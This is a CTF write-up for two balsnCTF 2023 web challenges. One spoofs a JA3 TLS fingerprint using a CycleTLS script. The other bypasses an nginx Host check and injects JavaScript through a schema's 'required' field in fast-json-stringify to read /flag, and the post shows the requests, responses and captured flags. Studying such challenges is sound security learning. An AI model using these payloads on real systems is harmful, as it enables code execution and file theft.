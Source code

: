 ```yaml
---
title: "balsnCTF23"
date: 2023-10-12T19:46:31+02:00
tags: ["web","ja3","serialization"]
categories: ["ctf"]
author: "Ayman Boulaich"
showToc: false
TocOpen: false
draft: false
hidemeta: false
comments: false
summary: "I have had the pleasure of participating on balsnCTF. This CTF was so funny and I have been able to learn a lot. In this writeup I am gonna write about 0FA and SaaS."
description: "I have had the pleasure of participating on balsnCTF. This CTF was so funny and I have been able to learn a lot. In this writeup I am gonna write about 0FA and SaaS."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## INDEX

- [0FA](https://pwndside.github.io/posts/balsnctf23/#0FA)
- [SaaS](https://pwndside.github.io/posts/balsnctf23/#SaaS)

## 0FA

![Untitled](/CTF/balsnctf23-1.png)

This challenge was so fun as easy. The main part of this level is the JA3 spoof.

```php
function fingerprint_check() {
    if($_SERVER['HTTP_SSL_JA3'] !== FINGERPRINT) 
        die("Login Failed!"); 
}
```

Taking a look to the source code we can see that after we submit a username `fingerprint_check()` close our connection if we don’t have a specific JA3

JA3 is **a method to fingerprint a SSL/TLS client connection based on fields in the Client Hello message from the SSL/TLS handshake**.

So basically, we need to impersonate a JA3 fingerprint.

There is no way to do it via headers on a burp request but hopefully a JavaScript library named CycleTLS helps to send a request with a custom JA3.

I built the next script in typescript in order to log as admin and get the flag.

```tsx
const initCycleTLS = require('cycletls');
// Typescript: import initCycleTLS from 'cycletls';

(async () => {
    // Initiate CycleTLS
    const cycleTLS = await initCycleTLS()

    // Send request
    const response = await cycleTLS(
        'https://localhost:8787/flag.php',
        {
            body: 'username=admin',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            ja3: '771,4866-4865-4867-49195-49199-49196-49200-52393-52392-49171-49172-156-157-47-53,23-65281-10-11-35-16-5-13-18-51-45-43-27-17513,29-23-24,0',
            userAgent: 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0'
        },
        'post'
    )

    console.log(response)

    // Cleanly exit CycleTLS
    cycleTLS.exit()
})()
```

> BALSN{Ez3z_Ja3__W4rmUp}
> 

## SaaS

![Untitled](/CTF/balsnctf23-2.png)

This challenge focuses on serialization which is present as a clue on the challenge name **Serialization as a Service.**

```jsx
const validatorFactory = require('@fastify/fast-json-stringify-compiler').SerializerSelector()()
const fastify = require('fastify')({
  logger: true,
})
const {v4: uuid} = require('uuid')
const FLAG = 'the old one'
const customValidators = Object.create(null, {}) // no more p.p.
const defaultSchema = {
  type: 'object',
  properties: {
    pong: {
      type: 'string',
    },
  },
}
fastify.get(
  '/',
  {
    schema: {
      response: {
        200: defaultSchema,
      },
    },
  },
  async () => {
    return {pong: 'hi'}
  }
)
fastify.get('/whowilldothis/:uid', async (req, resp) => {
  const {uid} = req.params
  const validator = customValidators[uid]
  if (validator) {
    return validator({[FLAG]: 'congratulations'})
  } else {
    return {msg: 'not found'}
  }
})

fastify.post('/register', {}, async (req, resp) => {
  // can only access from internal.
  const nid = uuid()
  const schema = Object.assign({}, defaultSchema, req.body)
  customValidators[nid] = validatorFactory({schema})
  return {route: `/whowilldothis/${nid}`}
})
fastify.listen({port: 3000, host: '0.0.0.0'}, function (err, address) {
  if (err) {
    fastify.log.error(err)
    process.exit(1)
  }
  // Server is now listening on ${address}
})
```

```docker
server {
    listen 80 default_server;
    return 404;
}
server {
    server_name *.saas;
    if ($http_host != "easy++++++") { return 403 ;}
    location ~ {
      proxy_pass http://backend:3000;
    }
}
```

The first thing we need to do is to bypass the nginx check in order to be able to see the site hosted on port 3000.

**server_name** has to be set to `*.saas` and **http.host** to `easy++++++` we can do that by changing it via BurpSuite.

```html
GET http://any.saas/ HTTP/1.1
Host: easy++++++
```

The code uses the **fastify** framework and the **fast-json-stringify** library to serialize schemas dynamically.

The next security [notice](https://fastify.dev/docs/latest/Reference/Validation-and-Serialization/#--security-notice) of the fastify doc gives us an approach of where is the main problem of this challenge.

Basically if a dev doesn’t treat the schema definition as a code and let the users create schemas with untrusted output may lead to undefined behavior.

If we check the source we have a endpoint called register which creates a schema merging the default one and the request body and creates a custom validator with that schema.

`/whowilldothis/:uid` endpoint with the corresponding uid, we can see how works his validator.

Googling I found a HackerOne which talks about a RCE vuln on the **fast-json-stringify** library. This reports helps me to find a RCE on this piece of code:

```jsx
// handle extraneous required fields
  for (const requiredProperty of required) {
    if (requiredWithDefault.indexOf(requiredProperty) !== -1) continue
    code += `if (obj['${requiredProperty}'] === undefined) throw new Error('"${requiredProperty}" is required!')\n`
  }
```

If we have a validator with a required property and if we are validating a schema without that property an error would be trigged.

As the `/whowilldothis/:uid` doesn’t validate a schema with the required property we can put this property via register endpoint and put a payload on it.

```html
POST http://.saas/register HTTP/1.1
Host: easy++++++
Content-Type: application/json
Content-Length: 101

{
  "required": ["'+global.process.mainModule.constructor._load('fs').readFileSync('/flag')+'"]
}

HTTP/1.1 200 OK
Server: nginx/1.16.1
Date: Thu, 12 Oct 2023 17:01:15 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 63
Connection: close

{"route":"/whowilldothis/1b00e70e-cea0-4003-9179-752e3179414e"}
```

![Untitled](/CTF/balsnctf23-3.png)

![Untitled](/CTF/balsnctf23-4.png)

> BALSN{N0t_R3ally_aN_u3s_Ca53}
>

**Thank you for reading, and happy hacking! 😄**
